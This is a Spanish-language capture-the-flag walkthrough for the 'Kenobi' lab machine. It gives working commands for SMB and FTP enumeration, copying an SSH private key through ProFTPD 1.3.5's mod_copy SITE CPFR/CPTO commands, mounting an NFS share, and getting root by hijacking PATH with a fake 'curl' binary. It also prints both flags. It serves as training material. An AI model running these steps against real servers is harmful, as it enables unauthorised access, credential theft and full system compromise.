

# KENOBI

## Escaneos de puertos

```bash
nmap ip
```

- \-sV: para saber las versiones de los servicios
- \-O: para saber el SO


```bash
nmap -p PUERTO --script=SCRIPT1,SCRIPT2 IP
```

* \-p: Indica el puerto donde se escanea
* \--script: lo que hace es ejecutar un script (puedes poner más de un script separándolo con comas como se ve arriba).
* SCRIPT1 (smb-enum-shares.nse): Enumera los recursos compartidos (shares) disponibles en el servidor SMB.
* SCRIPT2 (smb-enum-users.nse): Intenta enumerar los usuarios en el servidor SMB.


## Accedemos a los recursos compartidos SMB de un servidor remoto

```bash
smbclient //Ruta
```

* smbclient: es un cliente en línea de comandos para acceder a recursos compartidos en servidores SMB (Windows / Linux con Samba)
* //10.10.143.215/anonymous: en este caso esta sería la ruta donde se encuentra los recursos compartidos. Donde `10.10.143.215` es la ip del servidor SMB y `anonymous` es el nombre del recurso que queremos acceder.


## Obtener versión de ProFtpd

Para ello ponemos en escucha en el puerto 21 que sería el ftp de esta maquina y obtenemos la versión.

```bash
nc IP PUERTO
```

* IP (10.10.143.215): IP del servidor
* PUERTO (21): Puerto del protocolo



## Buscar Exploits para ProFtpd 1.3.5

Para ello usamos el comando searchsploit y buscamos por el nombre del software mas la versión:

```bash
searchsploit SOFTWARE VERSION
```

* SOFTWARE (ProFtpd)
* VERSION (1.3.5)


## Copiamos el id_rsa

Para ello volvemos a poner en escucha el puerto ftp y ponemos los siguientes comandos.

`SITE CPFR /home/kenobi/.ssh/id_rsa`
`SITE CPTO /var/tmp/id_rsa`

* SITE: extensión de comandos FTP que permite ejecutar comandos específicos del servidor.
* CPFR: Significa **Copy From Remote**.
* CPTO: Significa **Copy To Remote**.


Lo que hemos hecho anteriormente es para copiar el archivo id_rsa del servidor y lo que vamos hacer ahora es pegar el archivo id_rsa en lo que hemos montado:

```bash
mkdir /mnt/kenobiNFS  
mount 10.10.143.215:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.143.215
```

Una vez creado la estructura y haber copiado el archivo entramos por ssh y buscamos la flag que se encuentra en `/home/kenobi/user.txt` esto nos da la siguiente flag:

`d0b0f3f53b6caa532a83915e19224899`


## Escala de privilegios

```bash
find / -perm -u=s -type f 2>/dev/null
```

* `find /`:   Busca en todo el sistema de archivos, comenzando desde el directorio raíz (`/`).    
 *  `-perm -u=s`:      La opción `-perm` permite buscar archivos con permisos específicos.    
    - `-u=s:` Significa que el propietario del archivo tiene el **bit setuid** activado.
*  `-type f`:  Solo busca **archivos regulares** (no directorios, enlaces simbólicos, etc.).    
*  `2>/dev/null`: Redirige los **errores** estándar a `/dev/null`, lo que significa que cualquier mensaje de error (por ejemplo, permisos denegados) no se mostrará en la salida.    

Ahora ponemos los siguientes comando que lo que hace es ponernos como administrador y entramos en la shell del servidor con permisos de root 

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

* `echo /bin/sh > curl`: Crea archivo `curl` con ruta a shell.
* `chmod 777 curl`: Da permisos completos al archivo `curl`.
* `export PATH=/tmp:$PATH`: Agrega `/tmp` al `PATH` para ejecutar `curl`
* `/usr/bin/menu`: Ejecuta `menu`, posiblemente elevando privilegios a root.

Entramos en el archivo /root/root.txt y hay encontraremos la ultima flag que sería esta:

`177b3cd8562289f37382721c28381f02`

